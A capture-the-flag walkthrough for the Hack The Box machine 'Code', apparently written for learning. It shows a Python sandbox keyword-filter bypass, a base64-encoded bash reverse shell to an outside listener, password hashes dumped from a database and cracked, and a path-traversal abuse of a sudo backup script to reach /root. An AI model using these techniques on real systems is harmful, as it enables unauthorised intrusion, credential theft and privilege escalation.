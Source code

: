 ```yaml
---
name: Code
difficulty: easy
os: linux
platform: htb

img: https://labs.hackthebox.com/storage/avatars/55cc3528cd7ad96f67c4f0c715efe286.png
---
```



## Enumeration
### Port Scan
We start by scanning the target machine for open ports using Nmap. We will use the `-p-` option to scan all ports and the `--open` option to filter out closed ports
```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.64 -o allPorts
```
```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
```
We can see that port 22 is open, which is the SSH service. 

Now we will scan for all tcp, open and filtered, ports
```bash
nmap -p- -sS --min-rate 5000 -n -Pn -vvv 10.10.11.64 -o allPortsFiltered
```
```
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
5000/tcp open  upnp    syn-ack ttl 63
```
We can see that port 5000 is also open.

Now we will scan the open ports with service version detection and script scanning using `-sC` and `-sV` options
```bash
nmap -p 22,5000 -sCV 10.10.11.62 -o targeted
```
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b5b97cc4503295bcc26517df51a27abd (RSA)
|   256 94b525549b68afbe40e11da86b850d01 (ECDSA)
|_  256 128cdc97ad8600b488e229cf69b56596 (ED25519)
5000/tcp open  http    Gunicorn 20.0.4
|_http-title: Python Code Editor
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## User Exploitation

When accessing `http://10.10.11.62` it shows up a python code editor. We can create a new file and write some Python code in it. The web application allows us to execute the code we write.

We write the following Python code to do ls for `/` and `/home`:
```python
oas = sys.modules['o'+'s']
print(oas.listdir('.'))

print(oas.listdir('/'))
print(oas.listdir('/home')) 
#print(oas.listdir('/ro'+'ot'))
```
```
['app.py', 'static', 'templates', '__pycache__', 'instance'] 
['bin', 'lib64', 'proc', 'run', 'sbin', 'usr', 'lib32', 'home', 'var', 'srv', 'libx32', 'boot', 'tmp', 'lost+found', 'lib', 'root', 'sys', 'media', 'mnt', 'etc', 'dev', 'opt'] 
['martin', 'app-production'] 
```
Note that the system blocks some strings like `os`, `import` or `root` in the code editor, so we have to use other ways to access the modules and directories.
As we can see, we can find the home directory of the user `martin` and the `app-production` directory. We do not have access to `/root`

We dont have access to `/home/martin`

We can do ls on the `app-production` directory:
```python
oas = sys.modules['o'+'s']
print(oas.listdir('/home/app-production'))
```
```
['user.txt', '.local', '.sqlite_history', '.profile', '.python_history', '.cache', '.bash_logout', '.bash_history', '.bashrc', 'app'] 
```
We can see that we have a file called `user.txt` in the `app-production` directory. We can read it using the following code:
```python
wd = sys.modules['subpr'+'ocess']
output = wd.check_output(['cat', '/home/app-production/user.txt'])
print(output.decode())
```
```
user flag value
```

## Machine Access
We can access the machine using a reverse shell. We can use the following Python code
```python
a = sys.modules['subp' + 'rocess']
output = a.check_output('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi42O' +
                         'S80NDQ0IDA+JjE= | base64 -d | bash', shell=True)
print(output.decode())
```
This code will execute a reverse shell command that connects back to our machine. Make sure to set
up a listener on your machine to catch the reverse shell
```bash
nc -lvnp 4444
```
Once we have a reverse shell, we can get a persistent shell by using the following commands on the reverse shell
```bash
script /dev/null -c /bin/bash
CONTROL-Z
stty raw -echo; fg
reset xterm
export TERM=xterm
```
We can access the web page source code at app.py and we find the database access:
```python
app.config['SECRET_KEY'] = "7j4D5htxLHUiffsjLXB1z9GaZ5"
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///database.db'
app.config['SQLALCHEMY_TRACK_MODIFICATIONS'] = False
```
We also see that there is a table called `USER` in the database. We can use the credentials to access the database and retrieve the user information.
We can use the `sqlite3` command-line tool to access the SQLite database. 
```bash
sqlite3 instance/database.db "SELECT * FROM USER;"
```
```
1|development|759b74ce43947f5f4c91aeddc3e5bad3
2|martin|3de6f30c4a09c27fc71932bfc68474be
3|test|c06db68e819be6ec3d26c6038d8e8d1f
```
We can see that there are three users in the database: `development`, `martin`, and `test`. It looks like the passwords are hashed.
We can use `https://crackstation.net/` to crack the hashes. After cracking the hashes, we find the following credentials:
```
development:development
martin:nafeelswordsmaster
test:test12345
```
This allows us to access the machine as the user `martin` with the password `nafeelswordsmaster` through SSH.
```bash
ssh martin@10.10.11.62
```

## Root Exploitation
Once we have access to the user `martin`, we can check what sudo privileges the user has. 
```bash
sudo -l
```
```
Matching Defaults entries for martin on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User martin may run the following commands on localhost:
    (ALL : ALL) NOPASSWD: /usr/bin/backy.sh
```
As we can see, the user `martin` has the ability to run the script `/usr/bin/backy.sh` as root without a password. We can check the contents of the script to see if it is vulnerable or misconfigured.

This script is a script that backups a directory. We can pass as parameter this json configuration file
```
{
  "destination": "/home/martin/test/",
  "multiprocessing": true,
  "verbose_log": true,
  "directories_to_archive": [
    "/var/....//root"
  ],
  "exclude": [
    "test"
  ]
}
```
Note that the `directories_to_archive` field contains a path to `/var/....//root`, because the script removes `../` from the path, it will end up being `/var/../root`, which is the root directory `/root`. 

And then run the script as root:
```bash
sudo /usr/bin/backy.sh /home/martin/task.json
```

It will create a backup of the `/root` directory the `/home/martin/test/`. We can extract the backup and find the root flag:
```bash
tar -xvjf code_var_.._root_2025_July.tar.bz2 
cat root/root.txt
```
```
root flag value
```

## Conclusion
This walkthrough demonstrates how to exploit a vulnerable web application to gain access to the user and root flags. We used Python code execution to read files and execute commands, and we exploited a misconfigured backup script to gain root access. This highlights the importance of secure coding practices and proper configuration management in web applications.
This walkthrough is for educational purposes only. Always ensure you have permission to test and exploit systems.